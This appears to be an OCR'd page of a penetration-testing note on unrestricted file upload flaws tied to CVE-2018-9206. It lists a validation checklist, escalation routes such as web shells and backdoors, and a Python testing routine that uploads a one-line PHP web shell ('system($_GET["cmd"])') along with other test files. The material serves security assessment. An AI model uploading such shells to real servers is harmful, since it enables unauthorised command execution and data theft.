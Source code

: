 **Technical Validation Checklist:**
- [ ] Arbitrary file type acceptance confirmed
- [ ] CSRF protection absent or bypassable
- [ ] File execution capability verified
- [ ] Multi-subdomain attack surface mapped
- [ ] Impact scope extends beyond single application

**Exploitation Escalation Vectors:**
1. **Web Shell Deployment**: Direct server access via uploaded scripts
2. **Cross-Domain Attacks**: CSRF enabling network-wide file injection
3. **Privilege Escalation**: Uploaded files accessing sensitive server resources
4. **Data Exfiltration**: Malicious scripts harvesting confidential information
5. **Persistent Access**: Backdoor establishment through unrestricted uploads

### Advanced Testing Methodology:
```python
def validate_upload_vulnerability(endpoint):
    """Comprehensive file upload security assessment"""
    test_files = [
        {'name': 'shell.php', 'content': '<?php system($_GET["cmd"]); ?>'},
        {'name': 'shell.phtml', 'content': '<?php phpinfo(); ?>'},
        {'name': 'shell.php.jpg', 'content': '<?php echo "bypass"; ?>'}
    ]
    
    results = []
    for test_file in test_files:
        response = upload_file_csrf(endpoint, test_file)
        if response.status_code == 200:
            results.append({
                'file': test_file['name'],
                'uploaded': True,
                'execution_test': test_file_execution(response.url)
            })
    
    return results
```

### CVE-2018-9206 Specific Indicators:
- Response pattern: `{"files":[]}`
- Parameter name: `files[]`  
- No file type validation present
- Direct PHP execution capability
- Cross-origin request acceptance